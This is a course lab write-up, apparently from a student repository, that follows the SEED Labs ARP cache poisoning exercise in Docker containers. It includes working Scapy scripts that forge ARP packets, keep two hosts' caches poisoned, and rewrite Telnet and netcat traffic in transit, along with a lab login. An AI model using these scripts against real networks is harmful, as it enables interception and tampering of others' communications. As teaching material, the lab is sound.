# AitM in SeedLab

Fifth laboratory of the Cybersecurity Laboratory course. 

In this laboratory, we will follow the [SeedLab](https://seedsecuritylabs.org) guide to execute an [ARP Cache Spoofing Attack](https://seedsecuritylabs.org/Labs_20.04/Files/ARP_Attack/ARP_Attack.pdf). In particular, we will focus on: 

- [ARP cache poisoning](#1-arp-cache-poisoning)
- [MITM Attack on Telnet using ARP Cache Poisoning](#2-mitm-attack-on-telnet-using-arp-cache-poisoning)
- [MITM Attack on Netcat using ARP Cache Poisoning](#3-mitm-attack-on-netcat-using-arp-cache-poisoning)
 
### Tools

- **Ubuntu 22.04**, as indicated by the guide for ARM users ([Guide](https://seedsecuritylabs.org/labsetup.html)).

- **UTM**: to virtualize Ubuntu.

- **Docker**: a containerization tool used to create the laboratory environment.

- **Telnet**: an unencrypted remote terminal emulation protocol. 
- **Netcat**: a software utility for reading from and writing to network connections.
- **Wireshark**: a software tool for network traffic analysis.

## Setup

- Download and install [UTM](https://mac.getutm.app) or VMware Fusion to virtualize our Linux environment (Ubuntu 22.04).

- Download the Ubuntu 22.04 image to virtualize it. Alternatively, as in our case, directly download a pre-configured machine from the [UTM Gallery](https://mac.getutm.app/gallery/).

- Verify that [Docker](https://www.docker.com) is installed; otherwise, proceed with the installation.

- Download the zip file provided in the guide: [Lab setup files](https://seedsecuritylabs.org/Labs_20.04/Networking/ARP_Attack/).

- After extracting the zip archive and navigating into the directory, we build and start the Docker containers using the following command:

   ```bash
    docker compose up -d
   ```
    Check the running containers using `docker compose ps`.

    

- Access each container using: 

   ```bash
   docksh <id>  #Alias for: docker exec -it <id> /bin/bash
   ```

   We should reach a situation where we can view the various hosts within the network by reading their respective IP and MAC addresses: 

    - Host A |  IP: 10.9.0.5   | MAC: 6e:96:7f:52:a6:1d
    - Host B |  IP: 10.9.0.6   | MAC: c6:31:fe:a6:3d:8c
    - **Host M |  IP: 10.9.0.105 | MAC: da:5d:4b:92:09:5e** (Attacker)

## 1. ARP cache poisoning 

The objective of this task is to use packet spoofing to launch an ARP cache poisoning attack on a target.

In our case when two victim machines A and B try to communicate with each other, their packets will be intercepted and maybe modified by the attacker M.

We would like to cause A to add a fake entry to its ARP cache, such that B’s IP address is mapped to M’s MAC

### Task 1.A (using ARP request).

Construct an ARP ***request*** packet to map B’s IP address to M’s MAC address, and send it to A.

- Enter the `~/arp_lab/Labsetup-arm/volumes` directory.
- Execute `nano task1a.py` and insert the following code:

    ```python                                     
    #!/usr/bin/env python3
    from scapy.all import *

    # Ethernet Header
    E = Ether()
    E.src ="da:5d:4b:92:09:5e" # MAC_M
    E.dst ="6e:96:7f:52:a6:1d" # MAC_A

    # ARP Header
    A = ARP ()
    A.op = 1 # 1 - ARP Request | 2 - ARP Reply
    A.psrc = "10.9.0.6" # IP_B
    A.pdst = "10.9.0.5" # IP_A

    pkt = E/A
    sendp (pkt)
    ```
- From Host M (in volumes), execute `sudo python3 task1a.py` to send the ARP Request packet to Host A.

- From Host A, execute the command `arp -n` to display the ARP table. We can notice that Host B's IP address is mapped to Host M's MAC address.

    

### Task 1.B (using ARP reply).

Construct an ARP ***reply*** packet to map B’s IP address to M’s MAC address, and send it to A.  

- In the `~/arp_lab/Labsetup-arm/volumes` directory, execute `nano task1b.py` and insert the following code:

    ```python                                     
    #!/usr/bin/env python3
    from scapy.all import *

    # Ethernet Header
    E = Ether()
    E.src ="da:5d:4b:92:09:5e" # MAC_M
    E.dst ="6e:96:7f:52:a6:1d" # MAC_A

    # ARP Header
    A = ARP ()
    A.op = 2 # 1 - ARP Request | 2 - ARP Reply
    A.psrc = "10.9.0.6" # IP_B
    A.pdst = "10.9.0.5" # IP_A

    pkt = E/A
    sendp (pkt)
    ```

- Clear Host A's ARP cache with `ip neighbor flush all`.

### Scenario 1

***B’s IP is already in A’s cache.*** 

- From Host A ping Host B to fill A's ARP cache with `ping -c 1 10.9.0.6` (performs a ping sending a single packet).

- Check the ARP cache on Host A

    

- From Host M (in volumes), execute `sudo python3 task1b.py` to send the ARP Reply packet to Host A.

- Sending the ARP Reply to Host A allowed Host M to spoof Host B: since Host A's ARP cache was not empty, it accepted the update, overwriting the IP-MAC mapping. We can verify this by checking Host A's cache.

    

### Scenario 2

***B’s IP is not in A’s cache***

- Clear Host A's ARP cache with `ip neighbor flush all`.

- From Host M (in volumes), execute `sudo python3 task1b.py` again to send the ARP Reply packet to Host A.

- We observe that in this case, Host A's ARP table is not updated. This happens because, in the absence of a prior request (ARP Request), reply packets (ARP Reply) originating from hosts not currently in the cache are discarded.

### Task 1.C (using ARP gratuitous message)

Construct an ARP gratuitous packet, and use it to map B’s IP address to M’s MAC address. 

*A ***gratuitous ARP*** is a special type of ARP request packet sent without a prior request. It is used when a host machine needs to update outdated information on all the other machines' ARP caches.*

- In `~/arp_lab/Labsetup-arm/volumes`, execute `nano task1c.py` and insert the following code:

    ```python                                     
    #!/usr/bin/env python3
    from scapy.all import *

    # Ethernet Header
    E = Ether()
    E.src ="da:5d:4b:92:09:5e" # MAC_M
    E.dst ="ff:ff:ff:ff:ff:ff" # Broadcast

    # ARP Header
    A = ARP ()
    A.op = 1 # 1 - ARP Request | 2 - ARP Reply
    A.psrc = "10.9.0.6" # IP_B 
    A.pdst = "10.9.0.6" # IP_B <- Gratuitous ARP

    pkt = E/A
    sendp (pkt)
    ```
- The result is similar to what we observed in Task 1.b; the ARP cache is updated, and the IP-MAC mapping is overwritten. As can be seen in the following image (before and after sending the Gratuitous ARP packet to Host A): 

    

- Also in this case, with an empty ARP cache, nothing occurs, as previously seen in Task 1.b Scenario 2. 

## 2. MITM Attack on Telnet using ARP Cache Poisoning

In this second attack, M will intercept the communication between A (Telnet client) and B (Telnet server) using ARP poisoning, positioning itself as AitM between them. M can then intercept, read, and modify the TCP packet, and replace each typed character with a fixed character (say `Z`)

### Step 1 (Launch the ARP cache poisoning attack).

To establish a Man-in-the-Middle position between Hosts A and B, Host M must poison the ARP caches of both endpoints. Building on the techniques from Task 1, spoofed ARP packets are sent periodically to both targets (e.g., every 5 seconds); otherwise, the fake entries may be replaced by the real ones.

- So in `~/arp_lab/Labsetup-arm/volumes`, execute `nano arp_poison.py` and insert the following code:

    ```python                                     
    #!/usr/bin/env python3
    from scapy.all import *
    import time

    # Ethernet Header
    E1 = Ether()
    E1.src ="da:5d:4b:92:09:5e" # MAC_M
    E1.dst ="6e:96:7f:52:a6:1d" # MAC_A

    E2 = Ether()
    E2.src ="da:5d:4b:92:09:5e" # MAC_M
    E2.dst ="c6:31:fe:a6:3d:8c" # MAC_B

    # ARP Header
    A1 = ARP ()
    A1.op = 1
    A1.psrc = "10.9.0.6" # IP_B
    A1.pdst = "10.9.0.5" # IP_A

    A2 = ARP ()
    A2.op = 1
    A2.psrc = "10.9.0.5" # IP_A
    A2.pdst = "10.9.0.6" # IP_B

    pkt1 = E1/A1
    pkt2 = E2/A2

    # Loop indefinitely sending packets every 5 seconds
    while True:
        sendp(pkt1)
        sendp(pkt2)
        time.sleep(5)
    ```

- Check if works: 

    

### Step 2 (Testing)

We want to show what happens if we ping B from A, when M is positioned as AitM between them and the IP forwarding is disabled.

We turn off IP forwarding on M:
```bash                                     
    sysctl net.ipv4.ip_forward=0
```
#### 2.a (Launching a ping from A to B).

 Then on host A we try to ping B:

```bash                                     
    ping 10.9.0.6
```



We observe that despite a high packet loss (~75%), Host A still manages to receive some reply packets from Host B. This occurs because Host M performs ARP poisoning at specific intervals; between these intervals, the ARP caches on Hosts A and B temporarily recover their legitimate entries, allowing a few ICMP packets through directly. Nevertheless, the attack was successful: the ~75% packet loss confirms that most of the traffic was successfully diverted to Host M and subsequently dropped due to IP forwarding being disabled.


#### 2.b (Wireshark analysis).

We want to analyze the traffic with `Wireshark`.

- Open Wireshark on the bridge `br-lan`.

- Launch a ping from A to B. We should see the ping requests and replies:

    

    Filtering for `icmp` traffic in Wireshark confirms that packets are successfully intercepted by Host M: while the destination IP address points to Host B, the Layer 2 destination MAC address belongs to Host M. We confirm the previous observation about occasional packets reaching Host B directly and receiving replies.

    

    > As we expected, the same behavior can be observed if we try to ping Host A from Host B, since the ARP cache poisoning is bidirectional.

### Observation

- Host A, not receiving a reply from Host B, suspects a connection issue or network inconsistency and broadcasts an ARP Request ("Who has 10.9.0.6?"). For this reason, there were windows of MAC address restoration.

- In Wireshark, this exact behavior can be observed: 

    


    
### Step 3 (Turn on IP forwarding). 

Now we turn on IP forwarding on M and we try to ping B from A again:

```bash                                     
    sysctl net.ipv4.ip_forward=1
```

#### 3.a (Launching a ping from A to B).

- On host A we ping B again:

    ```bash                                     
        ping 10.9.0.6
    ```

    

    When IP forwarding is enabled on Host M, the packet loss is 0%, as all ICMP requests successfully reach Host B and corresponding replies return to Host A. Since Host M acts as a router on the same local subnet, it also sends ICMP Redirect messages to Host A. Because the connection remains fluent without timeouts, Host A does not issue ARP broadcast queries to recover the original MAC addresses, keeping the ARP cache poisoned and the MITM position stable.

#### 3.b (Wireshark analysis).

- The packet capture confirms that Host M is actively routing the traffic. 

    

    The traffic follows the previous analysis performed in 3.a and confirms that the MITM position is stable.


### Step 4 (Launch the MITM attack)

From the previous steps, we are able to redirect the TCP packets to Host M, but instead of forwarding, we would like to replace them with a spoofed packet.

In particular we want replace the payload of the TCP packets with the character 'Z'. 

- First turn on `IP forwarding` on M:

    ```bash                                     
        sysctl net.ipv4.ip_forward=1
    ```
- Leave the previously created script running (`arp_poison.py`) to keep the ARP caches of both hosts poisoned.

- In a terminal on Host A, start the Telnet client connecting to Host B:

    ```bash                                     
        telnet 10.9.0.6
    ```
    *Username:* `seed` & *Password:* `dess`

    


### 4.a (Turn off IP forwarding)
- Disable IP forwarding on M:

    ```bash
    sysctl net.ipv4.ip_forward=0
    ```

Observation: 
With IP forwarding turned off after establishing the Telnet connection, the session becomes completely unresponsive, and we are unable to type any characters into the terminal. This phenomenon occurs because Host M (the attacker) continues to receive the TCP traffic due to the poisoned ARP caches, but drops all incoming packets instead of relaying them, and telnet needs an echo of the typed characters to display them to the user.

### 4.b (Run the MITM script)

Now, we want to replace the payload of the TCP packets with the character 'Z', preserving the control commands.

- As before: 
    1. *Turn on IP forwarding on Host M (only to allow starting the telnet connection)*
    2. *start client telnet on Host A to Host B*
    3. *Turn off IP forwarding on M*

- In `~/arp_lab/Labsetup-arm/volumes`, execute `nano telnet_mitm.py` and insert the following code:

    ```python
    #!/usr/bin/env python3
    from scapy.all import *

    IP_A = "10.9.0.5"  
    IP_B = "10.9.0.6"  
    
    MAC_A = "6e:96:7f:52:a6:1d"
    MAC_B = "c6:31:fe:a6:3d:8c" 
    
    MAC_M = "da:5d:4b:92:09:5e" 

    def spoof_pkt(pkt):
        # Packet from A to B
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            newpkt = IP(bytes(pkt[IP]))
            del(newpkt.chksum)
            del(newpkt[TCP].payload)
            del(newpkt[TCP].chksum)
            if pkt[TCP].payload:
                data = pkt[TCP].payload.load  # The original payload data
                newdata = data if data[0] == 0xFF else b'Z' * len(data) # Preserve control commands intact; replace user input payload with 'Z' characters.
                send(newpkt/newdata)
            else:
                send(newpkt)
        # Packet from B to A
        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
            newpkt = IP(bytes(pkt[IP]))
            del(newpkt.chksum)
            del(newpkt[TCP].chksum)
            send(newpkt)
        
    #Filter to ignore our own packets
    f = f'tcp and not ether src {MAC_M}' 
    pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
    ```

    > This script will modify the payload of the TCP packets that pass through it, replacing the content of the payload with 'Z' characters if the packet goes from A to B (IP_A -> IP_B), while leaving the payload of the packets going from B to A unchanged.

- Run the script on M:

    ```bash
    python3 telnet_mitm.py
    ```
- On Host A, we should see that all the characters we type are replaced by 'Z':

   

**Observation:**
    
We can see that the telnet attack works, in fact all the characters we type are replaced by 'Z'. This happens because the payload of the TCP packets sent from Host A to Host B is intercepted by Host M and replaced with 'Z' characters.

## 3. MITM Attack on Netcat using ARP Cache Poisoning

This task is similar to Task 2, except that Hosts A and B are communicating using netcat, instead of telnet.

- To establish the connection between A and B using netcat, we use the following commands:

    - *On Host B:* 

        ```bash
        nc -lp 9090 
        ```
    
    - *On Host A:* 
    
        ```bash
        nc 10.9.0.6 9090 
        ```

    - *Connection established.*
    
        

- Now we can start the ARP poisoning attack on Host M using the script `arp_poison.py` created in Task 2. 

- Create `netcat_mitm.py` in `~/arp_lab/Labsetup-arm/volumes` with the same code as `telnet_mitm.py`, except for the lines containing "newdata", replacing them with the following line: 

    ```python
    newdata = data.replace(b"federico", b"AAAAAAAA")
    ```

- Execute the script `netcat_mitm.py` and disable IP forwarding on M.

- In Host A on the netcat terminal we try to write the word "federico" and we expect to see it replaced with "AAAAAAAA" on host B:

    

We can see that the script replaces the word "federico" with "AAAAAAAA" on host B so the MITM attack works.


